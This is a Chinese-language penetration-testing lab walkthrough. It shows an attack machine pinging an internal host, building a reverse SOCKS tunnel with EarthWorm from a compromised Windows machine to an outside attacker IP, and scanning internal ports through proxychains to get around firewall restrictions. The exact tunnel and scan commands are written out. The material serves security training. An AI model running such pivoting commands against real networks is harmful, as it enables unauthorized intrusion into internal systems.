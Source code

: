 ![image-20240703131126540](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVNH0RpwKTmSWghKs7XkfnbLQMQwUicbl9s0fcVXc8v4wicU5bq6MnuA1g/640?wx_fmt=jpeg&from=appmsg "")  
  
使用ping命令尝试去ping这个内网地址，结果发现是可以ping通，该设备是存活的状态，如下图所示。  
  
![image-20240703131206008](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVnQKYaxSPbAeFicsglLvslr9P2sReQMJu0G2iaZJXLB2ley2PibdqUiaoiag/640?wx_fmt=jpeg&from=appmsg "")  
> 注：由于10.0.18.22是内网地址，外部攻击机无法直接去连接该内网地址，需通过隧道代理，代理到攻击机，才可进行下一步的渗透。  
  
### 2.Windows隧道代理  
  
**（1）本地1080与8080做端口转发**  
  
回到【攻击机1-kali Linux】界面，再次新建终端输入以下命令并按回车，使用EarthWorm工具开启socks5代理由本地端口1080与8080做端口转发，如下图所示。  

```
/tools/ew -s rcsocks -l 1080 -e 8080 &

```

  
![image-20240703131646006](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVMgkOPIFliaMeh5IOQOeP2PZHa3pLIQTSCCKSlWXZjUYWuOnsTiaBTI5A/640?wx_fmt=jpeg&from=appmsg "")  
  
使用vim命令创建并编辑/etc/proxychians4.conf文件，如下图所示。  
  
![image-20240703131836914](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVyamqSEkC2Z5Ef2LSATvJr7YY66rptXk1vpmuZ2Q2iaQIEibD7wkIee8g/640?wx_fmt=jpeg&from=appmsg "")  
  
按【i】键启用编辑模式，查看proxychians4.conf文件末尾处是否为socks5代理本地127.0.0.1的1080端口，如下图所示。  
  
![image-20240703131753259](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aVMDaibSQ1436yVEOXBHAMQ5TLiceUSvCh3a45f2tSCASe39knUfs27JtQ/640?wx_fmt=jpeg&from=appmsg "")  
  
编辑完成后，按下【Esc】键，退出编辑模式，输入 【:wq!】 命令并按下回车键，保存并退出文件编辑模式，如下图所示。  
  
![image-20240703131904357](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXdl8nia4BicSevibNs0mk13aV4fmwq1f8MCWRM8S6zkscessCWuBQTncSib5nZJVMXDC199SHERPhlWA/640?wx_fmt=jpeg&from=appmsg "")  
  
**（2）上传EarthWorm的Windows版**  
  
回到远程桌面窗口，依次双击【计算机】→【kali上的h系统文件夹】，进入Kali Linux本机的共享目录，并复制【ew.exe】到桌面，如下图所示。  
  
****  
**（3）执行反向代理**  
  
再次新建命令提示符窗口，输入以下命令并按回车，使用EarthWorm工具做socks代理连接攻击机1-kali Linux的端口8080，如下图所示。  

```
ew  -s rssocks -d 67.220.91.30 -e 8080

```

  
****  
**（4）通过隧道代理使用NMAP扫描内网地址**  
  
回到【攻击机1-kali Linux】界面，新建终端输入以下命令并按回车，使用proxychians代理nmap工具绕过防火墙ICMP限制，并扫描指定范围的端口，如下图所示。  

```
proxychains nmap -Pn -sT -p 21,22,23,25,80，135,139,445,3306,3389 10.0.18.22

```
